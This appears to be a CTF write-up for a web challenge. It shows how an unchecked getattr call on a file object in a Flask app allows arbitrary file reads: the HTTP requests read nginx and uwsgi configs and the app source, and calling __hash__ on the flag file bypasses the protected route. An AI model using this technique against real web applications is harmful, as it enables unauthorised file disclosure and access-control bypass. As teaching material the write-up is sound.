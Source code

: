 # web-protected-area

## Task

The web application had a two API methods, similar to the methods from the previous task but not absolutely similar:

The first method could check that file is exists:
```
GET /check_perm/readable/?file=public.txt HTTP/1.1
Host: 66.172.33.148:8008

```

The second read file content:
```
GET /read_file/?file=public.txt HTTP/1.1
Host: 66.172.33.148:8008

```

Now the second method had filters like:
```
file = request.args.get("file").replace('../', '')
if file.find('.txt') != (len(file) - 4):
        return 'security'

```

## Solution

After we tried a some mutations in request to the first method, we could see the error message from the server after the next request:

Request:
```
GET /check_perm/asdfad/?file=public.txt HTTP/1.1
Host: 66.172.33.148:5008

```

Response:
```
'_io.TextIOWrapper' object has no attribute 'asdfad'
```


The `_io.TextIOWrapper` is python class that inherits from the class `io.TextIOBase` and have next interesting methods:
- read
- readlines
- readline
- etc...

Just check `read` attribute in the request and we could read an arbitrary files on the server:
```
GET /check_perm/read/?file=public.txt HTTP/1.1
Host: 66.172.33.148:5008
```

The right way for find `.py` server's files was to start with `nginx.conf` file:
request:
```
GET /check_perm/read/?file=./../etc/nginx/conf.d/nginx.conf HTTP/1.1
Host: 66.172.33.148:5008
```

response:
```
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /opt/py/app/static;
    }
}
```

Now we know that the server use `/opt/py/app/` folder as sources and **uwsgi** as web-server.

With this information we could find `uwsgi.ini` file in app folder with content:
```

[uwsgi]
module = main_application
callable = app
py-autoreload = 1
uid = nginx
gid = nginx
process = 5
max-requests=5000
```

And it was easy to understand that the application entrypoint  file is `main_application` + `.py`.
`/opt/py/app/main_application.py`:
```python
from app_source.main import *

app = create_app()

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)
```

Look at `/opt/py/app/app_source/main.py`:
```python
from flask import Flask

def create_app():
    """Construct the core application."""
    app = Flask(__name__, instance_relative_config=False)

    with app.app_context():
        # Imports
        from . import all_routes
        from . import admin_route

        return app
```

From the `main.py` we got a two main files:
`all_routes.py`:
```python

from flask import current_app as app
from flask import request, render_template, send_file
import traceback, json
import os

@app.route('/check_perm/<method>/', methods=['GET'])
def app_checkb_file(method) -> json:
    try:
        file = request.args.get("file")

        if file.find('/proc') != -1:
            return "0"

        file_path = os.path.normpath('/files/{}'.format(file))
        with open(file_path, 'r') as f:

            call = getattr(f, method)()
            if type(call) == int:
                return str(call)
            elif type(call) != list and file.find('flag') == -1:
                return str(call)

            return '0'
    except Exception as e:
        return str(e)

@app.route('/read_file/', methods=['GET'])
def app_read_file() -> str:
    
    file = request.args.get("file").replace('../', '')

    if file.find('.txt') != (len(file) - 4):
        return 'security'
    
    try:
        return send_file('/files/{}'.format(file))
    except Exception as e:
        return str(e)

@app.route('/', methods=['GET'])
def app_index() -> str:
    return render_template('index.html')

@app.errorhandler(404)
def not_found_error(error) -> str:
    return "Error 404"
```

and `admin_route.py`:
```python

from flask import current_app as app
from flask import request, render_template, send_file
import traceback, json
from config import *
import os

@app.route('/protected_area/<file_hash>', methods=['GET'])
def app_protected_area(file_hash) -> str:
    try:
        if str(hash(open(Config.FLAG))) == file_hash:
            return send_file(Config.FLAG_SEND)
        else:
            abort(403)
    except:
        return "500"
```

The file `admin_route.py` showed for us searched route `/protected_area/<file_hash>`.
For get the flag we should find decimal value of `hash()` function from FLAG file.

Config.py file contents:
```
import os

class Config:
    """Set Flask configuration vars from .env file."""

    # general config
    FLAG      = "flag/flag"
    FLAG_SEND = "../flag/flag"
```

What we know about hash function? 
1. The value of the `hash()` function will change with each new start of the python process (Not very important for us.)
2. "Internally, hash() method calls __hash__() method of an object which are set by default for any object. We'll look at this later.”

The second point means that we could execute the method __hash__ on a file object.
Try it!
request:
```
GET /check_perm/__hash__/?file=./../opt/py/app/flag/flag HTTP/1.1
Host: 66.172.33.148:5008
```

response:
```
8771321880381
```

And make request to get the flag:
```
GET /protected_area/8771321880381 HTTP/1.1
Host: 66.172.33.148:5008
```

Done!